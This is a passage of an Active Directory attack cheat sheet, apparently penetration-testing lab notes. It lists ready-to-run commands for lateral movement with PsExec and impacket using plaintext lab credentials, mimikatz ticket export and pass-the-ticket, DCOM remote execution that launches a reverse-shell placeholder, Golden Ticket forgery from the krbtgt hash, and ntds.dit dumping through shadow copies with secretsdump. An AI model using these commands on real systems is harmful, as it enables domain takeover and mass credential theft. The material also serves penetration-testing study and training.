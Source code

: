 * Impacket-Suite: `impacket-psexec corp/jen:'Nexus123!'@192.168.186.72`
* RDP: `./PsExec64.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd`

**Pass The Hash**

This will not work for Kerberos authentication but only for servers or services using NTLM authentication.

**Pass The Ticket**

Export Available tickets from mimikatz [needs Local Administrator Privileges]

```cmd
# sekurlsa::tickets /export
C:\Users\Public> dir *.kirbi
# kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```
**DCOM**

Needs administrator powershell session

```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","TARGET_IP"))
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell base64 encoded reverse shell","7")
```

**Golden Ticket**

* `lsadump::lsa /patch`
* `kerberos::purge`
* `kerberos::golden /user:jen /domain:corp.com /sid:DOMAIN_SID /krbtgt:krbtgt_password_hash /ptt`
* `PsExec.exe \\dc1 cmd.exe`

**Shadow Copy**

Needs Domain Admin member

* `vshadow.exe -nw -p  C:`
* `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak`
* `reg.exe save hklm\system c:\system.bak`

Then from Kali

```bash
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```